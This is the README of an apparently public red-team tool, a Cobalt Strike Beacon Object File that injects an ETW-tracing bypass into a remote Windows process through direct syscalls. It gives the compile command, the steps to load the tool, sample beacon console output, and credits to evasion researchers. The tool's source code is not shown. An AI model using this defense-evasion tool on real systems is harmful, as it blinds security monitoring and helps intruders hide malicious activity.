## Cobalt Strike BOF - Inject ETW Bypass
Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)

#### Running InjectEtwBypass BOF from CobaltStrike to Bypass ETW in Notepad.exe
  ![](images/injectEtw.png)

### Compile with x64 MinGW:
```bash
cat compile.sh
x86_64-w64-mingw32-gcc -m64 -mwindows -c injectEtwBypass.c -o injectEtwBypass.o -masm=intel -Wall -fno-asynchronous-unwind-tables -nostdlib -fno-ident -Wl,-Tlinker.ld,--no-seh
bash compile.sh
```

### Run from Cobalt Strike Beacon Console
+ After compiling `injectEtwBypass.o`, load the `injectEtwBypass.cna` script into Cobalt Strikes via the Script Manager
+ Once loaded into Cobalt Strike, you can use the command from the interactive beacon console:
```bash
beacon> help
    injectEtwBypass           Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)
beacon> help injectEtwBypass
Synopsis: injectEtwBypass PID
beacon> injectEtwBypass 8968
[*] Inject ETW Bypass (Bobby Cooke//SpiderLabs|@0xBoku|github.com/boku7)
[+] host called home, sent: 2336 bytes
[+] received output:
Injecting NTDLL.EtwEventWrite bypass in remote process: 8968 (PID)
```

## Credits / References
### ETW Bypass Massive Credits to [Adam Chester (@\_xpn\_) of TrustedSec](https://twitter.com/_xpn_) 
+ [@\_xpn\_ Hiding Your .NET – ETW](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/)
+ [ajpc500/BOFs](https://github.com/ajpc500/BOFs/)
+ [Offensive Security OSEP](https://www.offensive-security.com/pen300-osep/)
### Creating Shellcode BOFs with C [Chetan Nayak (@NinjaParanoid)](https://twitter.com/NinjaParanoid)
+ [Executing Position Independent Shellcode from Object Files in Memory](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/)
### HalosGate SysCaller
+ [Reenz0h from @SEKTOR7net](https://twitter.com/SEKTOR7net)
  + Most of the C techniques I use are from [Reenz0h's awesome Sektor7 courses](https://institute.sektor7.net/) & blogs 
  + Best classes for malware development out there.
  + Creator of the halos gate technique. His work was the motivation for this work.
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ [@smelly__vx](https://twitter.com/smelly__vx) & [@am0nsec](https://twitter.com/am0nsec) ( Creators/Publishers of the Hells Gate technique )
  + Could not have made my implementation of HellsGate without them :)
  + Awesome work on this method, really enjoyed working through it myself. Thank you!
  + [HellsGate Github Repo](https://github.com/am0nsec/HellsGate)
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### Process Injection - [Pavel Yosifovich (@zodiacon)](https://twitter.com/zodiacon)
  + [Windows Process Injection for Red-Blue Teams](https://www.pentesteracademy.com/course?id=50)
### BOF Helpers
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
### Great Resource for learning Intel ASM
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)
### Implementing ASM in C Code with GCC
+ [Outflank - Direct Syscalls in Beacon Object Files](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)
+ https://www.cs.uaf.edu/2011/fall/cs301/lecture/10_12_asm_c.html
+ http://gcc.gnu.org/onlinedocs/gcc-4.0.2/gcc/Extended-Asm.html#Extended-Asm
